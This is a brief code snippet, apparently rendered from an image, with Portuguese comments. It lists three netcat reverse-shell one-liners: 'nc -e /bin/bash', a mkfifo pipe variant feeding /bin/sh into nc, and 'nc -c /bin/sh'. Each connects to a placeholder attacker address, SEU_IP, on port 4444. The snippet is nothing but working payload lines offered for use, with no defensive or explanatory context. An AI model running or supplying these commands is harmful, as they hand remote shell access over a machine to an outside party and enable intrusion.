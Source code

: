 # Versão tradicional
nc -e /bin/bash SEU_IP 4444

# Alternativa sem -e
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc SEU_IP 4444 > /tmp/f

# Versão com netcat tradicional
nc -c /bin/sh SEU_IP 4444
